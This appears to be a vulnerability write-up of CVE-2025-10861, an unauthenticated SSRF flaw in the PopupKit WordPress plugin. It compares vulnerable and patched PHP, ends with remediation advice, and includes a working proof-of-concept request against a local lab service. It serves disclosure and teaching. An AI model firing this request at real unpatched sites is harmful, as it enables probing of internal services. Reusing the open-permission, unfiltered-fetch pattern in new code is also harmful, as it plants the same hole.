

# CVE-2025-10861 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Popup Builder with Gamification, Multi-Step Popups, Page-Level Targeting, and WooCommerce Triggers** plugin for WordPress is vulnerable to **Server-Side Request Forgery (SSRF)** in all versions **up to and including 2.1.4**.
The cause is **insufficient validation** of **URLs** supplied via the **`url`** parameter.
This allows **unauthenticated attackers** to make **web requests** to **arbitrary addresses** originating from the web application, which can be used to **query or modify information from internal services**, as well as **conduct network reconnaissance**.
The vulnerability was **partially patched** in **version 2.1.4**.

* **CVE ID**: [CVE-2025-10861](https://www.cve.org/CVERecord?id=CVE-2025-10861)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.1.4
* **Patched Versions**: 2.1.5
* **CVSS severity**: Medium (7.2)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress PopupKit Plugin](https://wordpress.org/plugins/popup-builder-block/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **PopupKit**: **2.1.3** (vulnerable) and **2.1.5** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare differences between versions.

## Analysis

### Patch diff

Because some source was partially patched in **2.1.4**, we will analyze using version **2.1.3**.

```php {title="FetchDemo.php - v2.1.3" hl_lines=[4,6,12,13,20,21,26,28]}
protected function get_routes(): array {
    return [
        [
            'endpoint'            => '/live-preview',
            'methods'             => 'POST',
            'callback'            => 'fetch_external_content',
            'permission_callback' => '__return_true',
        ],...
    ];
}

public function fetch_external_content( \WP_REST_Request $request ) {
    $url = $request->get_param( 'url' );

    if ( ! filter_var( $url, FILTER_VALIDATE_URL ) ) {
        return new \WP_REST_Response( array( 'error' => 'Invalid URL' ), 400 );
    }

    // Fetch the content using wp_remote_get
    $new_url  = add_query_arg( 'preview', 'true', $url );
    $response = wp_remote_get( $new_url );
    if ( is_wp_error( $response ) ) {
        return new \WP_REST_Response( array( 'error' => 'Error fetching content' ), 500 );
    }
    // Return the fetched content
    $body = wp_remote_retrieve_body( $response );
    $body = preg_replace( '/type="[^"]+-text\/javascript"/', 'type="text/javascript"', $body );
    return new \WP_REST_Response( array( 'content' => $body ), 200 );
}
```

In version **2.1.3**, the plugin defines a POST API with `permission_callback => __return_true`, allowing **any user**, including **anonymous users**, to invoke `fetch_external_content()` with a required `url` parameter.
This function uses `wp_remote_get` to send a request to the provided URL and returns the response body.

Because there is no mechanism to control or filter internal URLs, an attacker can send requests to internal services, leading to **SSRF** exploitable by **anonymous users**.

```php {title="FetchDemo.php - v2.1.5" hl_lines=[4,6,12,20,19,25,27]}
protected function get_routes(): array {
    return [
        [
            'endpoint'            => '/live-preview-template',
            'methods'             => 'GET',
            'callback'            => 'fetch_external_content',
        ],...
    ];
}

public function fetch_external_content( \WP_REST_Request $request ) {
    $url = $request->get_param( 'url' );

    if ( ! filter_var( $url, FILTER_VALIDATE_URL ) ) {
        return new \WP_REST_Response( array( 'error' => 'Invalid URL' ), 400 );
    }

    // Fetch the content using wp_remote_get
    $new_url  = add_query_arg( 'preview', 'true', $url );
    $response = wp_safe_remote_get( $new_url );
    if ( is_wp_error( $response ) ) {
        return new \WP_REST_Response( array( 'error' => 'Error fetching content' ), 500 );
    }
    // Return the fetched content
    $body = wp_remote_retrieve_body( $response );
    $body = preg_replace( '/type="[^"]+-text\/javascript"/', 'type="text/javascript"', $body );
    return new \WP_REST_Response( array( 'content' => $body ), 200 );
}
```

In the **2.1.5** fix, the plugin made several changes to mitigate **SSRF** risk:

* **Changed the endpoint** from `/live-preview` to `/live-preview-template`.
* Replaced `wp_remote_get()` with `wp_safe_remote_get()`, which helps WordPress **automatically block requests to internal addresses** such as `localhost`, `127.0.0.1`, or `169.254.*`.
* As a result, user-supplied requests to internal resources on the server are blocked, preventing straightforward SSRF exploitation.

### Vulnerable Code

`get_routes()` is invoked inside `register_routes()`:

```php {title="Api.php - v2.1.3" hl_lines=[4,7,8,10,11,12,13,14,20,21]}
protected $namespace = 'pbb/v1';

public function register_routes() {
    $routes = $this->get_routes();
    foreach ($routes as $route) {
        register_rest_route(
            $this->namespace,
            $route['endpoint'],
            [
                'methods'             => $route['methods'],
                'callback'            => [$this, $route['callback']],
                'permission_callback' => isset($route['permission_callback'])
                    ? $route['permission_callback']
                    : [$this, 'permission_callback'],
            ]
        );
    }
}

public function permission_callback(): bool {
    return current_user_can('manage_options');
}
```

When `register_routes()` runs, all routes returned by `get_routes()` are registered with the WordPress REST API via `register_rest_route()`.

Here:

* Each route maps to an `endpoint`, `method`, and `callback`.
* If a route lacks a `permission_callback`, the plugin defaults to `$this->permission_callback`, requiring the `manage_options` capability (typically admin).
* However, in **2.1.3**, the `/live-preview` route is explicitly declared with `permission_callback => '__return_true'`, which **bypasses the permission check**, allowing anyone (including anonymous users) to call that API.

When a **POST** request is sent to `/wp-json/pbb/v1/live-preview`, `fetch_external_content()` executes. It reads the `url` parameter from the request, performs a **fetch request** to that address, and returns the **response body**.

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request to the endpoint

```http
POST /wp-json/pbb/v1/live-preview HTTP/1.1
Host: localhost
...

url=http://localhost:8001/metadata
```

**Result**:



## Conclusion

Versions **≤ 2.1.4** of **PopupKit** are vulnerable to **SSRF**: the `/wp-json/pbb/v1/live-preview` endpoint allows **anonymous** users to call `fetch_external_content()` with a client-provided `url`; the function uses `wp_remote_get()` and returns the response body directly, enabling access to internal services. Version **2.1.5** switched to `wp_safe_remote_get()` and restricted access to admin-only, which reduces risk.

## Key takeaways

* **Update** to **2.1.5+**.
* **Do not trust client URLs** — validate/allowlist before fetching.
* **Use `wp_safe_remote_get()`** and add additional checks (redirects, DNS).
* **Do not use `permission_callback => __return_true`**; restrict permissions.
* **Do not return raw response bodies** unless necessary.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress PopupKit Plugin <= 2.1.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/popup-builder-block/vulnerability/wordpress-popup-builder-with-gamification-multi-step-popups-page-level-targeting-and-woocommerce-triggers-plugin-2-1-4-unauthenticated-server-side-request-forgery-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-27-cve-2025-10861/  

